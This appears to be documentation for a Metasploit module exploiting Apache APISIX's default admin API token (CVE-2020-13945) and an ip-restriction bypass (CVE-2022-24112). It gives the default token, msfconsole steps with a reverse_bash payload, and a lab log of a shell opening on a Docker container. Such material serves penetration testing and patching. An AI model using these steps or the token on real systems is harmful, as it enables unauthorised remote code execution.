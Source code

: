 ## Vulnerable Application

A default configuration of Apache APISIX (with default API key) is vulnerable to remote code execution.

The Apache APISIX has a default API token `edd1c9f034335f136f87ad84b625c8f1` defined at `conf/config.yaml` and in its default configuration
has doesn't come with the `ip-restriction` plugin enabled, what allow any user to add a new route in its default confiuration.
By leveraging the feature `script` added in the 2.x version an user can add a route which leads to the remote LUA code execution
(CVE-2020-13945). Even if there is ip-restriction enabled, this exploit relay on the vulnerability CVE-2022-24112 to circuvent that
restriction.

This module was tested using a vulnerable docker container as available on the [vulnhub](https://github.com/vulhub/apisix/CVE-2020-13945/docker-compose.yml) project.

If we have the API token we can execute command using the parameter `filter_func` or `script`, and if there is an IP restriction
enabled by the plugin ip-restriction we can bypass this restiction if the plugin batch-request is also enabled.

### Version and OS
This module has been tested successfully on Apache APISIX 2.2, 2.6, 2.11.0 and 2.12.1

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/http/apache_apisix_api_default_token_rce`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. set `LHOST` and `LPORT`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/apisix`).

### API_KEY (required)

The admin API KEY for APISIX (Default: `edd1c9f034335f136f87ad84b625c8f1`).

### ALLOWED_IP (required)

An IP address that is knew to be in the allowed list (Default: `127.0.0.1`).

## Scenarios
```
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > run rhosts=127.0.0.1 rport=9080 lhost=docker0 lport=4444

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 127.0.0.1:9080
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.18.0.4:48162 ) at 2022-02-28 18:32:50 +0100
id

uid=99(nobody) gid=99(nobody) groups=99(nobody)
uname -a
Linux 58f5aba16de9 5.16.8-arch1-1 #1 SMP PREEMPT Tue, 08 Feb 2022 21:21:08 +0000 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 127.0.0.1 - Command shell session 1 closed.
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > 
```
